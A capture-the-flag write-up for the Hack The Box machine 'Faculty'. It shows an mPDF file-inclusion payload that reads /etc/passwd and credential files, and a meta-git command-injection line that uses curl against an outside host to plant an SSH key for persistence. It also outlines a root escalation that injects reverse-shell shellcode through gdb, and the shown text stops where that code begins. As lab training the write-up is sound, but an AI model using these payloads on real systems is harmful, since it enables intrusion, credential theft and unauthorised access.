# Summary
[Faculty](https://app.hackthebox.com/machines/Faculty) starts with a school faculty platform. An IDOR vulnerability allows me to leak an ID that I can use to log in to the platform. Once logged in, mPDF 6.0 is used to generate PDF files. This version of mPDF is vulnerable to a file traversal vulnerability. Using this I am able to leak a valid username and password for SSH access. After that I exploit `meta-git` to get a shell as the next user. The final user is a member of the `debug` group and has access to the GNU debugger with `cap_sys_ptrace` capabilities. With this I am able to connect to any process on the box and inject shellcode. I connect to a process run by root and inject a reverse shell to gain root access.
# Nmap
I start off with an nmap scan. `-p-` to scan all ports, `-v` to print open ports as they're found. And then `-sC` to run the default scripts and `-sV` to enumerate version on the open ports.
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e9:41:8c:e5:54:4d:6f:14:98:76:16:e7:29:2d:02:16 (RSA)
|   256 43:75:10:3e:cb:78:e9:52:0e:eb:cf:7f:fd:f6:6d:3d (ECDSA)
|_  256 c1:1c:af:76:2b:56:e8:b3:b8:8a:e9:69:73:7b:e6:f5 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-title: School Faculty Scheduling System
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Only 2 ports open, SSH on port 22, and HTTP running Nginx on port 80.
# Website
The site is a php site that asks for an ID number. Viewing the source I see that the page looks for a response of 1 and then will let the user proceed. 





I intercept in Burp and change the response to 1 and am able to see the `/index.php` page in Burp. 





However my lack of a valid cookie prevents me from being able to access this page in browser. I play around with some links I can see on the page, but no luck.

There is a `/admin` page that redirects to `/admin/login.php` which is a different login page. Logging in here I again change the `3` in the response to a `1`, I get redirected to `/admin/index.php?page=home`, I can see the html in Burp. Looking through this, I see other page names. One is, `faculty`. Maybe I can get an ID from here.



I browse to `/admin/index.php?page=faculty` and can see the html in Burp. I can also go to the "Render" tab to make the page easier to view



Here I am able to get 3 usernames and ID's! Using these ID's, I can log into the main `/` page. Which brings me to a calender/schedule.


I notice that after logging in here I have a cookie! 



When I browse back to `/admin`, I am logged in!


# mPDF File Inclusion
On the /admin page there is a button to download various info as pdf. Downloading and running `exiftool` on this pdf shows me that it's made with mPDF 6.0. 



Searching for this I eventually stumble on a [file inclusion vuln](https://www.exploit-db.com/exploits/50995) It's not for the right version and I can't find any info related to a CVE or anything, but I decide to give a go. The script generates a payload that I add to the request to `/admin/download.php`. I get back a pdf that tells me there's an included file called `/etc/passwd`. This seems good. I open the pdf in an actual pdf viewer, and then when I click the included file would you look at that, it really is the `/etc/passwd` file!

Generating the payload:
```bash
┌──(kali㉿Kali)──[17:49:32]──[~/htb/Machines/Faculty]
└─$ python3 mpdf_lfi.py      
                          _____  _____  ______   ______ ___  __   __                  _       _ _   
                         |  __ \|  __ \|  ____| |____  / _ \ \ \ / /                 | |     (_) |  
               _ __ ___  | |__) | |  | | |__        / / | | | \ V /    _____  ___ __ | | ___  _| |_ 
               | '_ ` _ \|  ___/| |  | |  __|      / /| | | |  > <    / _ \ \/ / '_ \| |/ _ \| | __|
               | | | | | | |    | |__| | |        / / | |_| | / . \  |  __/>  <| |_) | | (_) | | |_ 
               |_| |_| |_|_|    |_____/|_|       /_/ (_)___(_)_/ \_\  \___/_/\_\ .__/|_|\___/|_|\__|
                                                                               | |                  
                                                                               |_|   
Enter Filename eg. /etc/passwd

File >> /etc/passwd
[+] Replace the content with the payload below
Url encoded payload:
%3Cannotation%20file%3D%22/etc/passwd%22%20content%3D%22/etc/passwd%22%20icon%3D%22Graph%22%20title%3D%22Attached%20File%3A%20/etc/passwd%22%20pos-x%3D%22195%22%20/%3E

Base64 encoded payload:
JTNDYW5ub3RhdGlvbiUyMGZpbGUlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGNvbnRlbnQlM0QlMjIvZXRjL3Bhc3N3ZCUyMiUyMGljb24lM0QlMjJHcmFwaCUyMiUyMHRpdGxlJTNEJTIyQXR0YWNoZWQlMjBGaWxlJTNBJTIwL2V0Yy9wYXNzd2QlMjIlMjBwb3MteCUzRCUyMjE5NSUyMiUyMC8lM0U=
```
I use the base64 version, as the original data was base64 encoded



PDF with file attatched:


The attatched file:


I have a valid web file that I found earlier in an error from trying to log in with faculty ID: `/var/www/scheduling/admin/admin_class.php` I read that file and see there is another file: `/var/www/scheduling/admin/db_connect.php`, 



I grab this file and find a string that looks weird, but like it could be a password.



I try it with the user `gbyolo` that I found in `/etc/passwd` for SSH, and boom!!! It lets me in. Wild.


# Shell as Developer
Running `sudo -l` I find that I can run a node.js script called `meta-git` as the `developer` user. 
```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git

```
It looks like it's a script that essentially allows me to execute git commands.
```node
#!/usr/bin/env node

let loaded = false;

if (loaded) return process.kill();

const program = require('commander');
const debug = require('debug')('meta-git');

program
  .command('add', 'Add file contents to the index')
  .command('branch', 'List, create, or delete branches')
  .command('checkout', 'Switch branches or restore working tree files')
  .command('clean', 'Remove untracked files from the working tree')
  .command('clone', 'Clone meta and child repositories into new directories')
  .command('commit', 'Record changes to the repository')
  .command('diff', 'Show changes between commits, commit and working tree, etc')
  .command('fetch', 'Download objects and refs from another repository')
  .command('merge', 'Join two or more development histories together')
  .command('pull', 'Fetch from and integrate with another repository or a local branch')
  .command('push', 'Update remote refs along with associated objects')
  .command('remote', 'Manage set of tracked repositories')
  .command('status', 'Show the working tree status')
  .command('tag', 'Create, list, delete or verify a tag object signed with GPG')
  .command('update', "Clone any repos that exist in your .meta file but aren't cloned locally")
  .parse(process.argv);

loaded = true;
```
When I logged in I also saw that there's an email for my user. It states that my user can now manage git repos for the faculty group. This is probably referncing that I can sudo ``-u developer meta-git`
```bash
olo@faculty:~$ cat /var/mail/gbyolo

<...SNIP...>

Hi gbyolo, you can now manage git repositories belonging to the faculty group. Please check and if you have troubles just let me know!\ndeveloper@faculty.htb
```

Upon further investigation, `meta-git` is not a custom script, but [an npm package](https://www.npmjs.com/package/meta-git) to "Manage your meta repo and child git repositorie". It is the git plugin for [meta](https://github.com/mateodelnorte/meta). Meta is a  "Tool for turning many repos into a meta repo"

Digging deeper, I find that there is an [RCE vuln](https://hackerone.com/reports/728040) for `meta-git`, released on Jan 11th 2020, for version 1.1.2. The current version is 1.1.7, but according to Snyk, [there is not fixed version](https://security.snyk.io/package/npm/meta-git), so this should still be exploitable.

I have a bit of a hard time getting this to work at first, until I realize that I'm running `meta-git` as `developer`, which doesn't have permission to write to folders owned by `gbyolo`. Once I `chmod 777` my `test` folder, some errors still get thrown, but the PoC works! I now have command execution as `developer`.
```bash
gbyolo@faculty:~$ cd /dev/shm/
gbyolo@faculty:/dev/shm$ mkdir tests
gbyolo@faculty:/dev/shm$ chmod 777 tests
gbyolo@faculty:/dev/shm$ cd tests
gbyolo@faculty:/dev/shm/tests$ touch test
gbyolo@faculty:/dev/shm/tests$ touch secret
gbyolo@faculty:/dev/shm/tests$ touch files
gbyolo@faculty:/dev/shm/tests$ sudo -u developer /usr/local/bin/meta-git -g
error: unknown option `-g
gbyolo@faculty:/dev/shm/tests$ meta-git clone 'sss||touch HACKED'
meta git cloning into 'sss||touch HACKED' at sss||touch HACKED

sss||touch HACKED:
fatal: repository 'sss' does not exist
sss||touch HACKED ✓
(node:3122) UnhandledPromiseRejectionWarning: Error: ENOENT: no such file or directory, chdir '/dev/shm/tests/sss||touch HACKED'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:3122) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:3122) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.

gbyolo@faculty:/dev/shm/tests$ ls
HACKED  files  secret  sss  test
gbyolo@faculty:/dev/shm/tests$ 

```

I host a public SSH key on my pythong server. I then run a command to fetch the key and add it to developer's `authorized_keys`.
```bash
sudo -u developer /usr/local/bin/meta-git clone 'sss||echo $(curl -s 10.10.15.34/id_rsa.pub) >> /home/developer/.ssh/authorized_keys'
```
I am then able to ssh into `developer's` account!

Once logged in to `developer`, I see that they already have a created `id_rsa`. To keep quiter, I delete my key from `authorized_keys`, and grab their ssh key. I also remove my `test` drectory from `/dev/shm`.
# Root Shell
I notice when i log in that `developer` is a member of the `debug` group. This could be useful.
```bash
developer@faculty:~/.ssh$ id
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
```
I check what this group owns with a `find` command and get back only the `gdb` binary. This is the Gnu Debugger. If I recall correctly, if this binary has the proper capabilities I should be able to get a privilege escalation with this. I check the capabilities on `gdb`
```bash
developer@faculty:~/.ssh$ getcap /usr/bin/gdb
/usr/bin/gdb = cap_sys_ptrace+ep
```
Checking HackTricks, there is a [section for this scenario](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace)
#### CAP_SYS_PTRACE
So this is a little complicated, it involves injecting shellcode into a running process. Fortunately HackTricks has a great guide on this. Basically what's happening is that we're using `msfvenom` to generate some shellcode, then we create a python script to convert it into a usable format. Then we just run `gdb`, and attach it to a process run by root, and inject our shell code. This then gets the shellcode executed as root, which executes a reverse shell.
```bash
# Generate the shellcode
